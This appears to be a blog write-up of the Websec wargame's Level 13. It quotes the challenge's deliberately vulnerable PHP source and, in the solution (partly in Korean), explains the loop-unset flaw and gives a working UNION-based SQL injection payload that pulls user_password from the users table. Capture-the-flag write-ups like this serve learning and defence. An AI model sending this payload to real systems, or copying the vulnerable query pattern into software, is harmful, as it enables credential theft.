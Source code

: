 ```yaml
---
title : "Websec - Level 13"
categories : [Wargame, Websec]
tags: [SQLi]
---
```


## Level 13
<hr style="border-top: 1px solid;"><br>

``` php
$db->exec('CREATE TABLE users (
  user_id   INTEGER PRIMARY KEY,
  user_name TEXT NOT NULL,
  user_privileges INTEGER NOT NULL,
  user_password TEXT NOT NULL
)');                            // users table

$db->prepare("INSERT INTO users VALUES(0, 'admin', 0, '$flag');")->execute();

if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
}
$selector = implode(',', array_unique($tmp));
$query = "SELECT user_id, user_privileges, user_name FROM users WHERE (user_id in (" . $selector . "));";
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

로컬에 코드를 복사를 해와서 여러가지를 넣다가 ','의 개수에 따라 for문에서 오류가 나오는 것을 발견을 함.

간단하게 확인을 하면, 값으로 ```,a```를 주면 ```$selector```의 값은 a가 됨.

<br>

','가 3개일 때 원하는 문자열이 나오는 것을 확인함.  
: ```,,,1)) union select 1,2,user_password from users-- ```

<br><br>
<hr style="border: 2px solid;">
<br><br>
